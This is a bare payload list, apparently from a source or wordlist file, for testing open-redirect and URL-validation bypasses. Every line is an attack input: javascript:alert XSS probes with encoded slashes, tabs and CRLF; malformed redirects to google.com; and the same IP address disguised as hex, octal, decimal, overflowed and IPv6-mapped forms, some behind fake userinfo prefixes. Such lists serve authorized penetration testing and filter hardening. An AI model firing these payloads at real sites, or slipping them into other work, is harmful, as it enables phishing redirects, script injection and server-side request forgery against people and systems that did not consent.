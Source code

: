 //javascript:alert(1)
/javascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
java%0d%0ascript%0d%0a:alert(0)
//google.com
https:google.com
//google%E3%80%82com
\/\/google.com/
/\/google.com/
//google%00.com
https://example.com/https://google.com/
";alert(0);//
javascript://example.com?%a0alert%281%29
http://0xd8.0x3a.0xd6.0xce
http://example.com@0xd8.0x3a.0xd6.0xce
http://3H6k7lIAiqjfNeN@0xd8.0x3a.0xd6.0xce
http://XY>.7d8T\205pZM@0xd8.0x3a.0xd6.0xce
http://0xd83ad6ce
http://example.com@0xd83ad6ce
http://3H6k7lIAiqjfNeN@0xd83ad6ce
http://XY>.7d8T\205pZM@0xd83ad6ce
http://3627734734
http://example.com@3627734734
http://3H6k7lIAiqjfNeN@3627734734
http://XY>.7d8T\205pZM@3627734734
http://472.314.470.462
http://example.com@472.314.470.462
http://3H6k7lIAiqjfNeN@472.314.470.462
http://XY>.7d8T\205pZM@472.314.470.462
http://0330.072.0326.0316
http://example.com@0330.072.0326.0316
http://3H6k7lIAiqjfNeN@0330.072.0326.0316
http://XY>.7d8T\205pZM@0330.072.0326.0316
http://00330.00072.0000326.00000316
http://example.com@00330.00072.0000326.00000316
http://3H6k7lIAiqjfNeN@00330.00072.0000326.00000316
http://XY>.7d8T\205pZM@00330.00072.0000326.00000316
http://[::216.58.214.206]
http://example.com@[::216.58.214.206]
http://3H6k7lIAiqjfNeN@[::216.58.214.206]
http://XY>.7d8T\205pZM@[::216.58.214.206]
http://[::ffff:216.58.214.206]
http://example.com@[::ffff:216.58.214.206]
http://3H6k7lIAiqjfNeN@[::ffff:216.58.214.206]
http://XY>.7d8T\205pZM@[::ffff:216.58.214.206]
http://0xd8.072.54990
http://example.com@0xd8.072.54990
http://3H6k7lIAiqjfNeN@0xd8.072.54990
http://XY>.7d8T\205pZM@0xd8.072.54990
http://0xd8.3856078
http://example.com@0xd8.3856078
http://3H6k7lIAiqjfNeN@0xd8.3856078
http://XY>.7d8T\205pZM@0xd8.3856078
http://00330.3856078
http://example.com@00330.3856078
http://3H6k7lIAiqjfNeN@00330.3856078
http://XY>.7d8T\205pZM@00330.3856078
http://00330.0x3a.54990
http://example.com@00330.0x3a.54990
